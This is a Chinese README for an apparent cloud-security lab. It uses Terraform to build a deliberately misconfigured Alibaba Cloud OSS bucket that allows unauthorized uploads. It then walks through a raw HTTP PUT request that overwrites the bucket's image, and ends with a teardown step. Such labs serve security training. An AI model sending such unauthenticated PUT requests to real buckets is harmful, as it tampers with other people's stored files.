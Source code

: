 # 描述

[English](./README.md) | 中文

这是一个帮你快速构建存储桶未授权上传场景的脚本，玩的愉快。

## 部署环境

### Git clone

```bash
cd /TerraformGoat/aliyun/oss/unrestricted_file_upload/ 
```

配置阿里云访问凭证

```shell
aliyun configure
```

> 在阿里云控制台的 [AccessKey 页面](https://ram.console.aliyun.com/manage/ak) 可以创建和查看您的 AccessKey

```bash
terraform init
terraform apply
```

如果确认没有问题，输入yes等待构建即可

## Get Flag

访问/hx.png获取图片

![image-20220425192605952](../../../images/image-20220425192605952.png)

使用PUT方法即可覆盖这张图片

```http
PUT /hx.png HTTP/1.1
Host: hx-cloud-security-ctf-nsao6.oss-cn-beijing.aliyuncs.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 13

HxSecurityLab
```

![image-20220425192622938](../../../images/image-20220425192622938.png)

随后在使用GET方法获取我们覆盖的内容

![image-20220425192649111](../../../images/image-20220425192649111.png)

## 销毁挑战

```bash
terraform destroy
```
